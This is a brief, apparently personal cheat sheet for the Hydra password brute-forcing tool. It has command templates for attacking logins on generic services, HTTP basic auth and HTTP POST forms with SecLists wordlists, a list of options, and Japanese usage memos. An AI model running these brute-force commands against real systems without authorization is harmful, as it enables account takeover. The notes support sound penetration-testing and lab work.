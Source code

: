 # [Hydra](https://hydra.cc/docs/intro/)
## command
normal:
```
hydra -l [USER] -P [WORDLIST] [IP] [PROTOCOL] -t [NUM OF CONNS]
```
```
wordlist=xato-net-10-million-passwords-1000.txt; hydra -l [USER] -P /usr/share/seclists/Passwords/$wordlist $rhost http -t 100
```

basic authentication:
```
hydra -l [USER] -P [WORDLIST] [IP] http-get [REQUEST PATH]
```
```
wordlist=xato-net-10-million-passwords-1000.txt; hydra -l [USER] -P /usr/share/seclists/Passwords/$wordlist $rhost http-get "[REQUEST PATH]"
```

post form:
```
hydra -l [USER] -P [WORDLIST] [IP] http-post-form "[REQUEST PATH]:[REQUEST BODY]:[ERROR MESSAGE]"
```
```
wordlist=xato-net-10-million-passwords-1000.txt; hydra -l [USER] -P /usr/share/seclists/Passwords/$wordlist $rhost http-post-form "[REQUEST PATH]:[REQUEST BODY]:[ERROR MESSAGE]"
```

## options
- -l : Username
- -L : Userlist path
- -p : Password
- -P : Wordlist path
- -s : Port
- -f : Exit when a login/pass pair is found
- -t : Number of parallel connections per target (default: 16)
- -w : defines the max wait time in seconds for responses (default: 32)
- -vV : Sets verbose mode to very verbose, shows the login+pass combination for each attempt

## wordlist
```
/usr/share/seclists/Passwords/
```

## memo
*1 REQUEST PATH では、リクエストパスの先頭に/を付けないとエラーになる。  
*2 REQUEST BODY ではユーザー名、パスワードが入る箇所をそれぞれ、^USER^, ^PASS^ というマジックパラメータに変更する。  
*3 もし指定したユーザーが存在しない場合、すぐに実行終了する。（詳細は Verbose モードで確認）  

